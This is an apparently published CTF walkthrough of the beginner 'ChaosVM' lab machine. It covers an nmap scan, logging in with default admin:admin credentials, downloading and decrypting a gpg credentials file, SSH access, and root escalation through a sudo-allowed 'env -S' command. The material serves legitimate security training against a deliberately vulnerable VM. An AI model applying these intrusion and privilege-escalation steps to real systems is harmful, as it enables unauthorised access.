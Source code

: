 #  Welcome to my ChaosVM Walkthrough
This is the first and easiest of the EvilPWN CTF VMs. If you want to tackle this challenge you can download the VM from here:
`https://evilpwnctf.github.io/vms/`
## 1. Initial scan
Once we have our lab set up, we go ahead as usual and perform a regular, noisy nmap scan to all ports 
```nmap
nmap -A -p- 192.168.1.229
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-02 22:44 BST
Nmap scan report for 192.168.1.229
Host is up (0.0016s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 88:0b:3f:3e:2f:57:57:7b:ad:0c:c9:6e:f1:81:04:cc (RSA)
| 256 73:0d:46:00:0e:43:78:97:94:37:fa:ac:1e:9c:a9:69 (ECDSA)
|_ 256 84:f3:72:01:cb:29:7a:ac:ad:1d:e9:5f:e0:50:3d:db (ED25519)
1337/tcp open http Apache httpd 2.4.38
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ Basic realm=Atom's TOP SECRET PROTECTED FOLDER!
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: 401 Unauthorized
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.02 seconds
```
## 2. Enumerating website at Port 1337
#### :1337/index
Firstly we find ourselves with a login portal. The first thing coming right off the bat is trying the typical default creds, as nothing has been leaked from the initial scan `admin:admin`
Once we are in we are led towards the folder `/data`. We are also provided with a suspicious string, `#chaoseverywhere`. We take a note of it and save it for later.
#### :1337/data
We see a file named `creds.txt.gpg`. It's time for us to grab the file. We can either use wget or curl, I prefer wget myself: `wget http://admin:admin@192.168.1.229:1337/data/creds.txt.gpg`
## 3. Decrypting the file
Given a txt.gpg file, we assume it's a plain text file encrypted with gpg. After a quick `man gpg` research, we learn we can decrypt it easily using -d: `gpg -d creds.txt.gpg`
This is the time to try the suspicious string we found earlier, the password to decrypt the file is `chaoseverywhere`
Now we have the creds for Port 22: `bob:pwn4abl3p4ssw0rd7331`
## 4. Privilege Escalation:
We connect to port 22 using ssh and the creds we found in the earlier step.
After some minutes enumerating and finding nothing, it's time we tried to escalate privileges. If we do `sudo -l` we see we can run `/usr/bin/env` as root.
If we check the manpage of `env`, we see we can parse commands using -S, so we go ahead and try 
```bash
env -S whoami
root
```
We finish the machine reading the root.txt file in the root folder:

```bash
env -S cat /root/root.txt
```

## Conclusion
This has been a nice and short VM for beginners that covers some web enumerating, cryptography and linux privesc. Submit your flag in EvilPWN CTF discord channel.
Brought to us by the autor âtøm, thank you very much. You can follow him on his github page https://github.com/0xatom and in EvilPWN CTF Discord server.

